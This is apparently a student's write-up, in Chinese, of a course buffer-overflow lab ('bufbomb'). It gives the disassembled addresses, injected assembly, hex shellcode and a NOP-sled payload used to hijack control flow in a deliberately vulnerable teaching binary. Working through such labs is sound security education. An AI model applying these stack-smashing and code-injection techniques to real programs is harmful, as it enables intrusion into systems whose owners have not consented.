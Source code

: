 # ICS-Lab3说明文档

19302010020 袁逸聪

## 操作方式

终端输入 touch levelx.txt 创建txt文件用于输入答案

写完后，输入 ./hex2raw <levelx.txt|./bufbomb -u 19302010020

-u 后为学生id，用于生成cookie，19302010020对应cookie为0x72e793cf

先用hex2raw把答案转化为二进制，再作为输入运行bomb

## level0

level0中，系统将调用test，再在test中调用getbuf

需要依靠没有溢出检测的getbuf修改返回地址，调用smoke函数

1. disas smoke，发现地址为0x08048bc6，即需要把返回地址修改成这个，下考虑返回地址的位置
2. 调用getbuf时，用4字节保存返回地址，而后进入getbuf
3. disas getbuf，看到两次push占用8字节，随后申请了0x24即36空间，故在储存返回地址后，栈中又存放了44字节
4. 由此，任意填充44字节后，在接下来的4字节输入0x08048bc6，考虑到小端法，应输入c6 8b 04 08

输入 ./hex2raw <level0.txt|./bufbomb -u 19302010020 检验通过

## level1

level1与level0相似，但仅仅调用函数不够，还要传入正确参数

不调用smoke而调用fizz，并且传入等同于cookie的参数

1. disas fizz，发现地址为0x08048c01，并且cmp对象为edx、eax，edx中数据来自于ebp+8，显然是参数保存位置
2. 类似于level10，getbug的返回地址被更改为fizz的开头
3. push ebp，并使ebp指向了esp所在，即保存ebp的地址(也是fizz地址被防止的地址)
4. 此后，ebp未被更改，因而ebp+8指向的是fizz地址所在地址之上8位
5. 由此，任意填充44字节后，输入0x08048c01(保存在读取参数时ebp位置)，空开4字节再输入cookie：0x72e793cf(保存在读取参数时ebp+8位置)

输入 ./hex2raw <level1.txt|./bufbomb -u 19302010020 检验通过

## level2

类似于level1，调用bang，但不是要参数，而是要全局变量与cookie相等

因而需要先找到全局变量的位置，自己写汇编代码修改全局变量并跳转到bang，修改地址执行我们写的代码内容

1. disas bang寻找全局变量位置，直接找到唯一的cmp，比较eax与edx，可见其中一者保存了cookie，一者为需要修改的全局变量。顺便记录bang地址0x08048c63
2. 但其地址是基于%ebx计算获得的，run test时找到ebx被设为0x0804d000，分别按照bang加上0x1114,0x111c后print，发现0x0804e114中存储正是cookie，那么0x0804e11c就是应修改的全局变量了
3. 由此，需要做的事是：push bang地址，修改全局变量为cookie，return(调用bang)

编写汇编代码assem2.s:
push $0x08048c63
movl $0x72e793cf,0x0804e11c
ret

终端输入
gcc -m32 -c assem2.s
objdump -d assem2.o > assem2.d
cat assem2.d

看到对应的二进制代码
68 63 8c 04 08
c7 05 1c e1 04 08 cf 93 e7 72
c3

于是，将以上内容填充金level2答案的前44个字节部分，并把最后的返回地址覆盖设置为我们输入的汇编代码对应地址

1. 在getbuf中找到输入内容将被存储的缓冲区地址，即lea -0x28(%ebp)所赋值，设置断点查看接受赋值的edx，找到为0x55683b18
2. 由此，在前44个字节中，先填充上述二进制代码，随意补完44字节后，再输入0x55683b18

输入 ./hex2raw <level2.txt|./bufbomb -u 19302010020 检验通过

## level3

level3要求我们在执行攻击后继续继续正常运行test，但需要把getbuf的返回值改为cookie

类似于更改全局变量，更改寄存器eax需要我们自己写汇编代码执行，但为使test顺利运行，还需要恢复ebp与ebx的值(getbuf函数结尾原本就会做)

1. disas test 找到调用getbuf后要执行代码的地址0x08048cf1
2. 在调用getbuf处设置断点，获取需要保存的ebp:0x55683b60和ebx:0x0804d000，用于恢复

编写汇编代码assem3.s:
push $0x08048cf1
movl $0x72e793cf,%eax
movl $0x55683b60,%ebp
movl $0x0804d000,%ebx
ret

终端输入
gcc -m32 -c assem3.s
objdump -d assem3.o > assem3.d
cat assem3.d

看到对应的二进制代码
68 f1 8c 04 08
b8 cf 93 e7 72
bd 60 3b 68 55
bb 00 d0 04 08
c3

类似于level2，将汇编代码的部分替换成以上内容(当然，更长的部分也需要替换更多的00，以保证总长度不变)

输入 ./hex2raw <level3.txt|./bufbomb -u 19302010020 检验通过

## level4

level4采用了栈地址随机化(栈建立在全局变量之上，根据需储存内容的不同，栈地址有所变化)，本关无法精确掌握需跳转地址

同时，getbuf也变为getbufn，申请0x204而不是0x24个空间用于写入

本关的随机化方式为在栈前申请随机大小的空间，因而栈指针esp的具体值无法实现确定，ebp同理

* 需要提供5个输入，改用./hex2raw -n<level4.txt|./bufbomb -n -u 19302010020

本关需求类似于level3，需要在修改返回值为cookie的同时恢复ebp、ebx并返回test，此处的ebp无法实现确定，只能根据当时的esp获取

1. disas getbufn，调用它时将保存返回地址、push ebp、push ebx、申请0x204空间，故书写时到第525~528个字节为返回地址
2. 在调用getbufn处设置断点，获取需要恢复的ebx：0804d000
3. 需要恢复的ebp无法直接获取，但可以在注入代码中根据esp反推：从testn中同步开始算，push ebx时esp-4,开辟空间又减少0x14,故ebp应为esp+0x18
4. disas testn，获取需要继续运行的下一行地址0x08048d81

编写汇编代码assem4.s:
movl $0x72e793cf,%eax
lea 0x18(%esp),%ebp
movl $0x0804d000,%ebx
push $0x08048d81
ret

**这里push需要放在恢复ebp后，否则esp就被改变了**

终端输入
gcc -m32 -c assem4.s
objdump -d assem4.o > assem4.d
cat assem4.d

看到对应的二进制代码
b8 cf 93 e7 72
8d ac 24 08 02 00 00
bb 00 d0 04 08
68 81 8d 04 08
c3

我们需要把这段代码写入栈中，并把原来的return adress替换成代码的首字节地址，但由于栈的具体地址随机化，无法精确确定

运行发现，level4的栈随机化并非完全随机，只是5次运行会改变顺序取几个值，断点检测每一次getbufn时写入内容的首地址：

0x55683998是其中最大的

也就是说，跳转到这个地址，可以保证接下来执行的是我们写入的区域而不是之前的其他代码

但由于随机，不一定正好落在首地址上(如果首地址小于0x55683998，就将落在中段)

因而采用nop sled策略，在前面部分大量填充nop(0x90)，效果为执行下一条，落入写入范围的情况下，必然能一路跳nop达到注入代码块

由此：

答案包含528个字节，后4个为0x55683998，紧跟在前面为上述汇编代码，其他位置用nop填充

输入 cat level4.txt|./hex2raw -n|./bufbomb -n -u 19302010020 检验通过
